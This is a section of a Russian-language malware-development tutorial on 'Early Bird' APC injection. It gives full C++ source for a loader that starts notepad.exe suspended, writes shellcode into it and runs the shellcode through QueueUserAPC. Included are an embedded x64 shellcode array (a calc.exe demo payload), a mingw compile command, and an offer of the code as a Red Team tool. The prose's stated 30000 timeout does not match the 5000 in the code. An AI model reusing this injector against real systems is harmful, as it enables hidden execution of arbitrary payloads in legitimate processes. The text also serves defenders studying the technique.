\newpage
\subsection{13. техника APC инъекций. Простой малварь на C++.}

الرَّحِيمِ الرَّحْمَٰنِ للَّهِ بِسْمِ 

{width="80%"}

В предыдущих разделах я писал о классическом внедрении кода и классическом внедрении DLL.     

Сегодня в этом разделе я расскажу о технике "Early Bird" APC injection. Мы рассмотрим функцию [QueueUserAPC](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-queueuserapc), которая использует асинхронный вызов процедур для постановки задачи в очередь конкретного потока.      

Каждый поток имеет свою очередь APC. Приложение ставит APC в очередь потока, вызывая функцию `QueueUserAPC`. Вызывающий поток указывает адрес функции APC в вызове `QueueUserAPC`. Постановка APC в очередь - это запрос к потоку на вызов функции APC.    

Общий обзор техники:       
Сначала наше вредоносное ПО создаёт новый легитимный процесс (в нашем случае `notepad.exe`):       

{width="80%"}          

{width="80%"}    

Когда вызывается `CreateProcess`, два важных параметра, на которые нужно обратить внимание - первый (запускаемый исполняемый файл) и шестой (флаги создания процесса). Здесь используется флаг `CREATE_SUSPENDED`.        

Затем выделяется память для полезной нагрузки в адресном пространстве нового процесса:     

{width="80%"}    

{width="80%"}    

Как я писал ранее, есть важное различие между `VirtualAlloc` и `VirtualAllocEx`. Первая функция выделяет память в вызывающем процессе, а вторая - в удалённом процессе. Таким образом, если вредоносная программа вызывает `VirtualAllocEx`, скорее всего, начинается межпроцессное взаимодействие.  

[APC](https://docs.microsoft.com/en-us/windows/win32/sync/asynchronous-procedure-calls) рутина указывает на shellcode.    
Затем полезная нагрузка записывается в выделенную память:    

{width="80%"}         

APC добавляется в очередь основного потока, который в данный момент находится в приостановленном состоянии:     

{width="80%"}    

{width="80%"}    

Наконец, поток возобновляется, и наша полезная нагрузка выполняется:    

{width="80%"}    

{width="80%"}    

Полный исходный код (`evil.cpp`):      

```cpp
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>

// our payload calc.exe
unsigned char my_payload[] = {
  0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc0, 0x00, 0x00, 0x00, 
  0x41, 0x51, 0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 
  0x65, 0x48, 0x8b, 0x52, 0x60, 0x48, 0x8b, 0x52, 0x18, 0x48, 
  0x8b, 0x52, 0x20, 0x48, 0x8b, 0x72, 0x50, 0x48, 0x0f, 0xb7, 
  0x4a, 0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0, 0xac, 0x3c, 
  0x61, 0x7c, 0x02, 0x2c, 0x20, 0x41, 0xc1, 0xc9, 0x0d, 0x41,
  0x01, 0xc1, 0xe2, 0xed, 0x52, 0x41, 0x51, 0x48, 0x8b, 0x52,
  0x20, 0x8b, 0x42, 0x3c, 0x48, 0x01, 0xd0, 0x8b, 0x80, 0x88, 
  0x00, 0x00, 0x00, 0x48, 0x85, 0xc0, 0x74, 0x67, 0x48, 0x01, 
  0xd0, 0x50, 0x8b, 0x48, 0x18, 0x44, 0x8b, 0x40, 0x20, 0x49, 
  0x01, 0xd0, 0xe3, 0x56, 0x48, 0xff, 0xc9, 0x41, 0x8b, 0x34, 
  0x88, 0x48, 0x01, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
  0xac, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1, 0x38, 0xe0, 
  0x75, 0xf1, 0x4c, 0x03, 0x4c, 0x24, 0x08, 0x45, 0x39, 0xd1, 
  0x75, 0xd8, 0x58, 0x44, 0x8b, 0x40, 0x24, 0x49, 0x01, 0xd0, 
  0x66, 0x41, 0x8b, 0x0c, 0x48, 0x44, 0x8b, 0x40, 0x1c, 0x49, 
  0x01, 0xd0, 0x41, 0x8b, 0x04, 0x88, 0x48, 0x01, 0xd0, 0x41, 
  0x58, 0x41, 0x58, 0x5e, 0x59, 0x5a, 0x41, 0x58, 0x41, 0x59,
  0x41, 0x5a, 0x48, 0x83, 0xec, 0x20, 0x41, 0x52, 0xff, 0xe0, 
  0x58, 0x41, 0x59, 0x5a, 0x48, 0x8b, 0x12, 0xe9, 0x57, 0xff, 
  0xff, 0xff, 0x5d, 0x48, 0xba, 0x01, 0x00, 0x00, 0x00, 0x00, 
  0x00, 0x00, 0x00, 0x48, 0x8d, 0x8d, 0x01, 0x01, 0x00, 0x00, 
  0x41, 0xba, 0x31, 0x8b, 0x6f, 0x87, 0xff, 0xd5, 0xbb, 0xf0, 
  0xb5, 0xa2, 0x56, 0x41, 0xba, 0xa6, 0x95, 0xbd, 0x9d, 0xff,
  0xd5, 0x48, 0x83, 0xc4, 0x28, 0x3c, 0x06, 0x7c, 0x0a, 0x80, 
  0xfb, 0xe0, 0x75, 0x05, 0xbb, 0x47, 0x13, 0x72, 0x6f, 0x6a, 
  0x00, 0x59, 0x41, 0x89, 0xda, 0xff, 0xd5, 0x63, 0x61, 0x6c, 
  0x63, 0x2e, 0x65, 0x78, 0x65, 0x00
};

int main() {

  // Create a 64-bit process:
  STARTUPINFO si;
  PROCESS_INFORMATION pi;
  LPVOID my_payload_mem;
  SIZE_T my_payload_len = sizeof(my_payload);
  LPCWSTR cmd;
  HANDLE hProcess, hThread;
  NTSTATUS status;

  ZeroMemory(&si, sizeof(si));
  ZeroMemory(&pi, sizeof(pi));
  si.cb = sizeof(si);

  CreateProcessA(
    "C:\\Windows\\System32\\notepad.exe",
    NULL, NULL, NULL, false,
    CREATE_SUSPENDED, NULL, NULL, &si, &pi
  );
  WaitForSingleObject(pi.hProcess, 5000);
  hProcess = pi.hProcess;
  hThread = pi.hThread;

  // allocate a memory buffer for payload
  my_payload_mem = VirtualAllocEx(hProcess, NULL, my_payload_len,
    MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

  // write payload to allocated buffer
  WriteProcessMemory(hProcess, 
  my_payload_mem, 
  my_payload, 
  my_payload_len, NULL);

  // inject into the suspended thread.
  PTHREAD_START_ROUTINE apc_r = (PTHREAD_START_ROUTINE)my_payload_mem;
  QueueUserAPC((PAPCFUNC)apc_r, hThread, NULL);

  // resume to suspended thread
  ResumeThread(hThread);

  return 0;
}
```

Как вы можете видеть, для простоты мы используем 64-битный `calc.exe` в качестве полезной нагрузки. Не углубляясь в генерацию полезной нагрузки, мы просто вставим полезную нагрузку в наш код:    

```cpp
unsigned char my_payload[] = {
  0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc0, 0x00, 0x00, 0x00, 
  0x41, 0x51, 0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 
  0x65, 0x48, 0x8b, 0x52, 0x60, 0x48, 0x8b, 0x52, 0x18, 0x48, 
  0x8b, 0x52, 0x20, 0x48, 0x8b, 0x72, 0x50, 0x48, 0x0f, 0xb7, 
  0x4a, 0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0, 0xac, 0x3c, 
  0x61, 0x7c, 0x02, 0x2c, 0x20, 0x41, 0xc1, 0xc9, 0x0d, 0x41,
  0x01, 0xc1, 0xe2, 0xed, 0x52, 0x41, 0x51, 0x48, 0x8b, 0x52,
  0x20, 0x8b, 0x42, 0x3c, 0x48, 0x01, 0xd0, 0x8b, 0x80, 0x88, 
  0x00, 0x00, 0x00, 0x48, 0x85, 0xc0, 0x74, 0x67, 0x48, 0x01, 
  0xd0, 0x50, 0x8b, 0x48, 0x18, 0x44, 0x8b, 0x40, 0x20, 0x49, 
  0x01, 0xd0, 0xe3, 0x56, 0x48, 0xff, 0xc9, 0x41, 0x8b, 0x34, 
  0x88, 0x48, 0x01, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
  0xac, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1, 0x38, 0xe0, 
  0x75, 0xf1, 0x4c, 0x03, 0x4c, 0x24, 0x08, 0x45, 0x39, 0xd1, 
  0x75, 0xd8, 0x58, 0x44, 0x8b, 0x40, 0x24, 0x49, 0x01, 0xd0, 
  0x66, 0x41, 0x8b, 0x0c, 0x48, 0x44, 0x8b, 0x40, 0x1c, 0x49, 
  0x01, 0xd0, 0x41, 0x8b, 0x04, 0x88, 0x48, 0x01, 0xd0, 0x41, 
  0x58, 0x41, 0x58, 0x5e, 0x59, 0x5a, 0x41, 0x58, 0x41, 0x59,
  0x41, 0x5a, 0x48, 0x83, 0xec, 0x20, 0x41, 0x52, 0xff, 0xe0, 
  0x58, 0x41, 0x59, 0x5a, 0x48, 0x8b, 0x12, 0xe9, 0x57, 0xff, 
  0xff, 0xff, 0x5d, 0x48, 0xba, 0x01, 0x00, 0x00, 0x00, 0x00, 
  0x00, 0x00, 0x00, 0x48, 0x8d, 0x8d, 0x01, 0x01, 0x00, 0x00, 
  0x41, 0xba, 0x31, 0x8b, 0x6f, 0x87, 0xff, 0xd5, 0xbb, 0xf0, 
  0xb5, 0xa2, 0x56, 0x41, 0xba, 0xa6, 0x95, 0xbd, 0x9d, 0xff,
  0xd5, 0x48, 0x83, 0xc4, 0x28, 0x3c, 0x06, 0x7c, 0x0a, 0x80, 
  0xfb, 0xe0, 0x75, 0x05, 0xbb, 0x47, 0x13, 0x72, 0x6f, 0x6a, 
  0x00, 0x59, 0x41, 0x89, 0xda, 0xff, 0xd5, 0x63, 0x61, 0x6c, 
  0x63, 0x2e, 0x65, 0x78, 0x65, 0x00
};
```

Давайте скомпилируем:    
```bash
x86_64-w64-mingw32-gcc evil.cpp -o evil.exe -s \
-ffunction-sections -fdata-sections -Wno-write-strings \ 
-fno-exceptions -fmerge-all-constants -static-libstdc++ \
-static-libgcc
```

{width="80%"}    

Запускаем `evil.exe` на Windows 7 x64:    

{width="80%"}    

Если проверить только что запущенный `notepad.exe` в Process Hacker, можно убедиться, что главный поток действительно приостановлен:     

{width="80%"}    

> Как видно, второй параметр функции `WaitForSingleObject` установлен в `30000` для демонстрации, в реальном сценарии он будет меньше.        

Наш `evil.exe` также работает на `Windows 10 x64`:     

{width="80%"}

[APC MSDN](https://docs.microsoft.com/en-us/windows/win32/sync/asynchronous-procedure-calls)         
[QueueUserAPC](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-queueuserapc)          
[VirtualAllocEx](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex)   
[WaitForSingleObject](https://docs.microsoft.com/en-us/windows/win32/api/synchapi/nf-synchapi-waitforsingleobject)        
[WriteProcessMemory](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory)      
[ResumeThread](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-resumethread)     
[ZeroMemory](https://docs.microsoft.com/en-us/previous-versions/windows/desktop/legacy/aa366920(v=vs.85))            
[исходный код на Github](https://github.com/cocomelonc/2021-11-11-malware-injection-3)         

В будущем я постараюсь разобраться в более сложных техниках внедрения кода.

Надеюсь, этот раздел поможет специалистам Blue Team лучше понимать данную технику, а для Red Team станет дополнительным инструментом в их арсенале.
      
